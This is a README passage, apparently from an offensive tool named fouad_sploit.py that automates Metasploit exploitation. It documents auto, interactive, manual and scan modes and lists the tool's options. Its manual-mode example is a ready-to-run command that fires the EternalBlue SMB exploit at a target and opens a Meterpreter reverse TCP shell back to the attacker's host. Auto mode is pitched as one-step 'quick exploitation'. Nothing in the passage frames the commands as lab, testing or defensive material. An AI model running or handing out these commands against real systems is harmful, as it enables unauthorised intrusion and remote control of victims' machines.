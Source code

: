 ### 🎮 Operation Modes

| Mode | Command | Description | Best For |
|------|---------|-------------|----------|
| 🤖 **Auto** | `--auto` | Fully automated | Quick exploitation |
| 💬 **Interactive** | `--interactive` | Guided setup | Beginners |
| ⚙️ **Manual** | `-t -p -e` | Full control | Advanced users |
| 🔍 **Scan** | `--scan` | Port detection | Reconnaissance |

### 1️⃣ Auto Mode (Recommended)

```bash
./fouad_sploit.py --auto --target 192.168.1.100
```

**What it does:** Port scan → Service detection → Exploit selection → Auto config → Execute

### 2️⃣ Interactive Mode

```bash
./fouad_sploit.py --interactive
```

**Features:** Step-by-step prompts • Port selection • Exploit suggestions • Payload menu • Real-time preview

### 3️⃣ Manual Mode

```bash
./fouad_sploit.py \
  --target 192.168.1.100 \
  --port 445 \
  --lhost 192.168.1.50 \
  --lport 4444 \
  --exploit exploit/windows/smb/ms17_010_eternalblue \
  --payload windows/meterpreter/reverse_tcp
```

### 4️⃣ Scan Mode

```bash
./fouad_sploit.py --target 192.168.1.100 --scan
```

---

## 🎛️ Command Options

```
  -h, --help              Show help message
  -t, --target TARGET     Target IP address
  -p, --port PORT         Target port number
  -l, --lhost LHOST       Local host (reverse connection)
  -L, --lport LPORT       Local port (default: 4444)
  -e, --exploit EXPLOIT   Metasploit exploit module
  -P, --payload PAYLOAD   Payload type
  -a, --auto              Auto mode
  -s, --scan              Scan ports only
  -i, --interactive       Interactive mode
  -o, --output OUTPUT     Output file (default: fouad_sploit.rc)
```

---